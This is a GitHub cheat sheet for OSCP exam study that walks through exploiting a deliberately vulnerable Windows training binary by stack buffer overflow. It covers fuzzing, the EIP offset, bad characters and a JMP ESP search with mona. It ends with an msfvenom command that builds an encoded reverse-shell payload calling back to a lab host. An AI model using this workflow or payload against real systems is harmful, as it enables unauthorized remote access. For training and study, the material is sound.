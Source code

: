 From: https://github.com/V1n1v131r4/OSCP-Buffer-Overflow

# OSCP Buffer Overflow Cheat Sheet

In this cheat sheet we will use `dostackbufferoverflowgod` as a vulnerable application in our exploration process (more info here: https://github.com/justinsteven/dostackbufferoverflowgood).

The binary can be downloaded here: https://github.com/justinsteven/dostackbufferoverflowgood/blob/master/dostackbufferoverflowgood.exe

Below are the download links for all the tools needed for the study:

- Windows 7 Evaluation: https://gist.github.com/anonymous/c644cac9d77e2793742c13cf10d26cb8 (you can run on Windows 10 too)
- Immunity Debugger: https://www.immunityinc.com/products/debugger/
- Mona.py: https://github.com/corelan/mona

All installation processes are described in the links above.


## Fuzzing

We will run the `connect.py` script to verify the application's response.

After this step, we will run the `fuzzing.py` script to identify the point that the application will crash. But before that, on your Windows, attach the application to the Immunity Debugger.

Change the amount of "A" in the script until the application broken.


## Offset

After finding the crash point of the application, we will identify the offset to the EIP address. For this we will generate a string with the pattern_create, from the MSF suite

```
msf-pattern_create -l 1024
```

Copy the EIP address into the Immunity Debugger and use the pattern_offset to identify this address

```
msf-pattern_offset -q 39654138
```

Now we can run `poc.py` and verify that our EIP has been overwritten with the character "B" (42 in hexadecimal)


## Badchars

To identify badchars we will use mona with the option `!mona bytearray`.

Insert the mona output in the `badchars.py` script and run against the application to identify the badchars.


There are many ways to carry out the badchar identification process (even mona has modules for that), but the most accurate way is visually. Follow the ASCII string in the Immunity Debugger and see what points this string crashed or skipped over.


## JMP ESP

After knowing the badchars of the application, we will identify the JMP ESP that will be responsible for changing the natural flow of the application and making it run the shellcode that we will insert into the stack.

The OPCODE for JMP ESP is `\xff\xe4` (in assembly). Using mona we will locate which register in the application that points to this OPCODE and so we can change the flow of the application to run our shellcode, rewriting the stack from its base (EBP).

Run `!mona modules` and identify the unprotected modules.

Run `!mona find -s "\xff\xe4"` to identify which of these pointers have the OPCODE for JMP ESP

Run `!mona jmp -r esp -cpb "\x00\x0a"` to identify which pointers do not have the badchars found.

By this point you may have already found the correct JMP ESP address. However, if you want to check, run `!mona find -s "\xff\xe4" -m dostackbufferoverflowgood.exe` directly on the identified vulnerable module.

At this point you will have the base address of the stack or return address (EBP). We need to convert this address to little-endian format to use it in our code. Just invert the bytes to perform this conversion:

```
0x080416BF  <->  "\xBF\x16\x04\x08"
```
 
 
 ## Exploit time
 
 We can now generate our shellcode excluding the badchars found:
 
 ```
 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"
 ```
 
 The `EXITFUNC=thread` option prevents the shellcode from crashing the application when executing our shellcode.
 
 Now just insert the msfvenom output in our `exploit.py` and run it against our application to gain access to the system exploiting the Buffer Overflow


